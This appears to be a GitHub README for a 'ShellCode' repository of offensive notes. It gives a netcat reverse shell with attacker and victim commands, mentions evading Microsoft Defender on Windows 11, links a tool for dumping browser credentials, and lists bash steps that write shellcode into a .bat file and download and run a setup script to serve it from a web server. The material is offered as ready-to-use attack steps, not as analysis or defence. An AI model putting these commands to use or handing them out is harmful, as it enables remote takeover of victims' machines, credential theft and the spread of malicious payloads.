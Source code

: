 # ShellCode

### Shell Generator Resource(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com) 


**MAC OS Reverse Shell Example:** (Last tested 11/24)

- Attacker: nc -lvnp &lt;Port&gt;

- Victim: nc &lt;IP&gt; &lt;Port&gt; -e /bin/bash

**Windwos 11 Reverse Shell Example:**

- cat & mouse game to bypass Microsoft Defender
- Useful resource: [Youtube](https://www.youtube.com/watch?v=SYM4i474JqM)


---
### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

---
### Dump Web-Browser Creds
[git](https://github.com/moonD4rk/HackBrowserData.git) (Last tested 11/24)

---
### Spin up a local Web Server to distribute the shellcode(Last tested 11/24)
To set up a web server and host your script, follow these steps:

   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh
   ```
![My Image](./picture.png)
